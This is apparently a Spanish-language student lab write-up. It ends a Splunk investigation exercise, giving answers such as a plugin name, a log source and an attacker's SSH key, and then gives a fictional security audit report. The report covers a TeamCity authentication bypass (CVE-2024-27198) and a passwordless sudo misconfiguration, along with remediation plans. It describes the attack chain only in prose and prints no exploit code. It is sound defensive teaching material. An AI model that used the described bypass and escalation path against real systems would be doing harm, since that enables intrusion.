  
</p>

6. ¿Cuál es la versión del paquete?

En la misma captura anterior podemos extraer también la versión del paquete: `amd64 1.0`

7. ¿A qué hora se emepzó a instalar el paquete?

<p align="center">
  
</p>

El paquete se empezó a instalar a las: `22:58:23'

8. ¿Cuál es el nombre del plugin que se instaló?

<p align="center">
  
</p>

Cómo se puede ver el plugin se llama `AyzzbuXY`

9. ¿Cuál es el source del evento del plugin?

El source es: `/opt/teamcity/TeamCity/logs/teamcity-activities.log`

10. ¿Desde que IP entró el atacante?

En este caso probamos a filtrar por el protocolo `ssh` para ver si existe una posible conexión 

<p align="center">
  
</p>

11. ¿Cuál es la Public Key por la que accedió el atacante?

En la misma búsqueda anterior podemos extraer la public key `ecXxIHdpi9cpIPbjewybKqpDqrM1bw/OlKeuDT6rmzc`


---

# Informe Final Auditoría de Seguridad

## 1.1 Datos del Proyecto

| Campo | Detalle |
| :--- | :--- |
| **Empresa Auditora** | Tonatiuh Qualo (Servicios de Seguridad Gestionados |
| **Cliente** | Nebula Inc. |
| **Proyecto** | Auditoría integral - Operación Eclipse |
| **Fecha Emisión** | 01/07/2026 |
| **Auditor Jefe** | Sergi Pérez |
| **Clasificación** | <span style="color:orange; font-size:14px; font-weight:bold">CONFIDENCIAL</span> |

## 1.2 Resumen Ejecutivo

Tras la investigación realizada por el equipo de respuesta de incidentes **Tonatiuh Qualo**, la postura de seguridad de **Nebula Inc.** se clasifica como <span style="color:red; font-size:12px; font-weight:bold">CRÍTICA</span>.

Se ha confirmado que, un atacante externo accedió al servidor de producción sin credenciales, escaló privilegios al máximo nivel e instaló mecanismos de acceso persistente, sin que los sistemas internos de la organización generasen alguna alerta.

Se han identificado **4 hallazgos de riesgo** <span style="color:red; font-size:12px; font-weight:bold">CRÍTICO</span> a partir del análisis de 4100 eventos en el **SIEM (Splunk)**. El ataque ha sido reconstruido en su totalidad, desde el vector de entrada inicial hasta la exfiltración de datos confirmado.

De no actuar ante estos hallazgos, **Nebula Inc.** se expone a un impacto combinado sobre tres ámbitos: 

- **Financiero**: Posibles sanciones de *RGPD* sobre la facturación anual.
- **Legal**: Responsabilidad civil frente a clientes cuyos datos han sido comprometidos.
- **Reputacional**: Los archivos exfiltrados ya han sido publicados en foros de la `Dark web`

Estos 3 riesgos, se retroalimentan entre sí y requieren de actuación inmediata por parte de la dirección.

## 1.3 Alcance y Metodología

### Sistemas evaluados:

| Sistema | Descripción |
| :--- | :--- |
| **Servidor de Producción** | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| **SIEM Splunk** | Plataforma centralizada de logs del cliente |

### Maros normativos aplicados:

| Marco | Aplicación |
| :--- | :--- |
| **MAGERIT v3** | Análisis y Gestión de risgos |
| **ISO 27001** | Referencia de controles de seguridad de la información |
| **NIS** | Marco europeo de ciberseguridad |

### Herramientas empleadas:

| Herramienta | Uso |
| :--- | :--- |
| **Splunk Enterprise** | Thread Hunting, correlación de enventos |
| **Nmap** | Reconocimiento activo de ataque (puertos, servicios y versiones) |
| **Metasploit/Meterpeter** | Emulación del vector de ataque original |

## 1.4 Hallazgo

### Hallazgo 1: Aplicación crítica expuesta a Internet sin actualizaciones

**Nivel de Riesgo**: <span style="color:red; font-size:16px; font-weight:bold">CRÍTICO</span> **(CVSS 9.8)**

El servidor de producción utiliza una versión obsoleta de la plataforma *JetBrains TeamCity*, accesible directamente desde internet. Esta versión contiene un fallo de seguridad conocido **(CVE-2024-27198)** que permite acceder como administrador sin necesidad de usuario y password. El fabricante publicó la corrección en marzo de 2024 pero en el momento del incidente (julio 2024) aún no se había aplicado.

**Condición (Lo que es)**: Cualquier persona desde internet puede acceder a TeamCity y aprovechando el fallo de seguridad, tomar el control completo del servidor. Esto ha sido verificado durante la simulación del ataque.

**Criterio (Lo que debería ser)**: Las normas de seguridad de la información (ISO27001), establecen que las correcciones de seguridad críticas deben aplicarse en un plazo razonable, especialmente en sistemas accesibles desde el exterior. Un fallo de esta gravedad no debería estar sin resolver durante mucho tiempo.

**Causa (Por qué ocurre)**: No existe un proceso establecido para revisar y aplicar actualizaciones de seguridad de forma periódica. El equipo de IT no contaba con alertas que avisaran de nuevos fallos publicados por los fabricantes.

**Consecuencia e Impacto**: Este ha sido el vector de entrada del atacante. A partir de aquí ha podido ejecutar acciones en el servidor, crear cuentas con privilegios y avanzar hasta la extracción de datos confidenciales.

### Plan de accion:

1. **Contención inmediata**: Actualizar **TeamCity** a la ultima versión. Restringir el acceso a la plataforma exclusivamente desde la red interna o a través de conexión **VPN**
2. **Acción definitva**: Establecer un proceso de revisión mensual de actualizaciones de seguridad e incoporar herramientas que alerten automáticamente cuando un sistema presente fallos conocidos. Documentar todo el proceso de revisión.

### Hallazgo-2: Privilegios de administración excesivos en cuenta de servicio

**Nivel de Riesgo**: <span style="color:red; font-size:16px; font-weight:bold">CRÍTICO</span>

La cuenta de usuario del sistema operativo bajo la que se ejecuta **TeamCity** `(ubuntu)` tiene permisos para realizar cualquier acción como administrador `(root)` sin necesidad de introducir el password. Esto significa que cualquier atacante que consiga acceso al servidor con este usuario, obtiene automáticamente el control absoluto del sistema operativo sin ningún obstáculo adicional.

**Condición (Lo que es)**: La configuración del sistema permite al usuario `ubuntu` ejecutar cualquier comando con privilegios máximos sin autenticación adicional `(NOPASSWD: ALL)`. Durante la simulación del ataque, se confirmó que ha bastado un solo comando para pasar de usuario limitado a administrador total del servidor.

**Criterio (Lo que debería ser)**: El principio de mínimo privilegio (ISO 27001) establece que cada cuenta debe tener únicamente los permisos estrictamente necesarios para su función. Una cuenta de servicio jamás debería tener permisos ilimitados de administración, y mucho menos sin requerir contraseña.

**Causa (Por qué ocurre)**: Configuración por defecto que no fue revisada ni restringida tras el despliegue del servidor. La ausencia de auditorías periódicas de permisos ha permitido que esta configuración pase desapercibida.

**Consecuencia e Impacto**: El atacante aprovechó esta configuración para escalar de un acceso limitado al control total del servidor en cuestión de segundos. Esto le permitió acceder a todos los archivos del sistema, instalar software malicioso y crear mecanismos de persistencia sin restricción alguna.

### Plan de acción:

1. **Contención inmediata**: Eliminar los permisos `NOPASSWD: ALL` de la cuenta `ubuntu`. Restringir sus privilegios exclusivamente a los comandos necesarios para operar **TeamCity**.
2. **Acción definitiva**: Implantar una política de mínimo privilegio en todos los servidores. Realizar auditorías trimestrales o mensuales de los permisos de las cuentas del sistema y registrar toda elevación de privilegios en el **SIEM** para su monitorización.


---

